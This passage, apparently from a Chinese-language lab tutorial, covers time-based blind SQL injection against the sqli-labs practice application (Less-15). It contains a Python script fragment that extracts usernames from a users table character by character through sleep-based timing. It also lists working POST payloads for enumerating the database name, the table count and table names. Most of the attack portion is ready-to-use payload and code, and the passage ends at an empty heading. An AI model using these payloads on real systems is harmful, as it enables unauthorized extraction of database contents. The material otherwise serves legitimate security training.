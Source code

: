 ```python
            payload = "and if(ascii(substr((select group_concat(username) from users),%d,1))=%d,sleep(2),1)--+"%(i,k)
            time1 = datetime.datetime.now()
            res = requests.get(url+payload)
            time2 = datetime.datetime.now()
            difference = (time2-time1).seconds
            if difference > 1:
                user += chr(k)
                print("user为->"+user)

if __name__ == '__main__':
    get_dbname()
    get_table()
    get_column()
    get_users()
```



### **4.post 基于时间的盲注应用**

在存在注入点 post 提交的参数后加入类似 `and if(length(database())>5,sleep(5),null) ` #如果执行的页面响应时间大于 5秒，那么看肯定就存在注入，并且对应的 sql 语句执行

#### Less-15 时间盲注

##### 数据库长度

```
http://192.168.70.14:8088/Less-15/

uname=admin' and if(length(database())>5,sleep(5),null) --+&passwd=admin123456&submit=Submit
```

如果数据据名称大于 5，则等待 5 秒，可以看到，执行时间大于 5 秒，说明数据库名称大于 5

##### 数据库名

```
uname=admin' and if(substr(database(),1,1)='s',sleep(5),0)--+
```

##### 几张表

```
uname=admin' and if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```

##### 第一个表名长度

```
uname=admin' and if(length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6,sleep(5),0)--+ 
```

##### 表名
